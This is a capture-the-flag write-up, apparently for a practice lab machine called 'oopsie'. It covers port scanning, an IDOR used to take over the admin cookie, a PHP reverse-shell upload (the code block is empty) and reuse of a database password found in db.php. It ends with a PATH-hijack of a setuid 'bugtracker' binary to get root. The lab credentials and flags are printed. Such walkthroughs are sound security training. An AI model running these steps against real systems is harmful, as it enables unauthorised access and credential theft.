### Recon

We start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```


As you can see, there are two ports, port `22` for *ssh* and port `80` for http server, in this case *apache* server.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

First we start with `gobuster`, to check for common files and folders, using this command:
```bash
gobuster dir -u http://$target/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

Then, we start to manual crawling, and inspect the sitemap using Burp suite.



As we can see, it detects the path `/cdn-cgi/login/`, let's check what we can find there.



### IDOR to achieve admin credentials

We can change the `id` in the url `http://10.129.138.30/cdn-cgi/login/admin.php?content=accounts&id=2` and achieving `IDOR`, and by this way getting teh Access ID of the admin, which is `34322`.



When going to uploads, we can see we need to be admin. we can easily change the cookie to get admin access, just change it to `34322`, the access id we achieved earlier.



### Upload webshell as an admin

Okay, we want to upload webshell, we can find the file in `/usr/share/webshells/php/php-reverse-shell.php`, which is reverse shell that created by monkey pentesting.
We just need to change the `port` and the `ip`, here is the full webshell
```php

```

We need to find however the location of the uploaded shell, luckily the  `gobuster` tells us that there is an `uploads` folder, maybe the uploaded php file will be there.



So, after uploading the `php-reverse-shell.php` we achieve the desired reverse shell.



Now, let just paste the commands to make the shell more nice:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### moving vertical to robert

We can check the `/etc/passwd` file and see there is another user which is called `robert`, we want to be robert:
```
robert:x:1000:1000:robert:/home/robert:/bin/bash
```

We'll check for the location of the website, maybe they have some credentials.
The files will be in `/var/www/html/cdn-cgi/login`, These are the files i found.
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls -la
total 28
drwxr-xr-x 2 root root 4096 Jul 28  2021 .
drwxr-xr-x 3 root root 4096 Jul 28  2021 ..
-rw-r--r-- 1 root root 6361 Apr 15  2021 admin.php
-rw-r--r-- 1 root root   80 Jan 24  2020 db.php
-rw-r--r-- 1 root root 5349 Apr 15  2021 index.php
-rw-r--r-- 1 root root    0 Jan 24  2020 script.js
```

After some sniffing, we find this line inside the `db.php` file
```php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```
We try to connect and check for some useful data in the `mysql` server, using this command, and supplying the password `M3g4C0rpUs3r!`:
```bash
mysql -u robert -p
```
We can't find anything interesting.



Okay, let's try another path, maybe robert reuses his passwords, let's try to change to robert using `su robert`, using the password `M3g4C0rpUs3r!`. it worked!



Let's grab the user flag from `user.txt`, using this command:
```bash
cat /home/robert/user.txt
```
and we get this:
```
f2c74ee8db7983851ab2a96a44eb7981
```

### Moving to root

We first run the `id` to view what are the privilages of robert:
```bash
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
``` 
Okay, robert is in `bugtracker` group, let's check if there are some executable files of this group:
```bash
robert@oopsie:~$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```

let's check what is exactly this file, what is `/usr/bin/bugtracker`:
```bash
robert@oopsie:~$ ls -l /usr/bin/bugtracker && file /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```
This is an executable file, with the setuid flag on.

We execute `/usr/bin/bugtracker` with ltrace, using this command:
```bash
ltrace /usr/bin/bugtracker
```



As we can see, it asks for some string, and then executes:
```c
system("cat $user_input");
```
this is very interesting, we can exploit this to make our own `cat` file, change the `$PATH` variable, and then achieve root shell!
We can do it because it doesn't use `/bin/cat`.

```bash
robert@oopsie:~$ cd /tmp
robert@oopsie:/tmp$ echo "/bin/bash" > cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ /usr/bin/bugtracker
```


We made it, now we only need to read the flag from `/root/root.txt`. remember we touched the `$PATH` variable, so we can use this command:
```bash
/bin/cat /root/root.txt
```



**User Flag:*****`f2c74ee8db7983851ab2a96a44eb7981`***

**Root Flag:*****`af13b0bee69f8a877c3faf667f7beacf`***
